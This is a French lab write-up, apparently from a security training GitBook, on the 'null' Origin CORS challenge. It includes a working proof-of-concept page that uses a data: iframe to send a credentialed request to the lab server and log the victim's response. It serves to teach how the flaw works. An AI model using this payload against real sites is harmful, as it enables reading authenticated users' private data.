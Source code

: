 # Application Trust "null" Origin

Le dernier challenge est un peu plus difficile puisque le serveur n'accepte plus que les requêtes provenant d'une origine `null` :

![](../../../.gitbook/assets/94f422bb80385d1a5b9299dda3adfde6.png)

La solution pour avoir un entête `Origin` possédant une valeur `null` est d'utiliser une iframe comme ceci :

```markup
<html>
  <head>
    <title>CORS vulnerable lab - Null Origin</title>
  </head>

  <body>
    <iframe src="data:text/html,
      <script>
        var xhr=new XMLHttpRequest();
        xhr.open('GET', 'http://192.168.56.184/null_origin.php', true);
        xhr.withCredentials = true;
        xhr.onreadystatechange = function() {
          if (this.readyState === XMLHttpRequest.DONE && this.status === 200) {
            console.log(xhr.response);
          }}; 
        xhr.send();
      </script>">
    </iframe>
  </body>
</html>
```

La réponse s'affiche bien dans la console lors de la visite de la victime :

![](../../../.gitbook/assets/67f1acf0c5b12562ad333025520175b5.png)

En ce qui concerne la requête/réponse, voici les valeur des différents entêtes :

![](../../../.gitbook/assets/ad5024a52179afa1d2b6595f3ed29ee3.png)





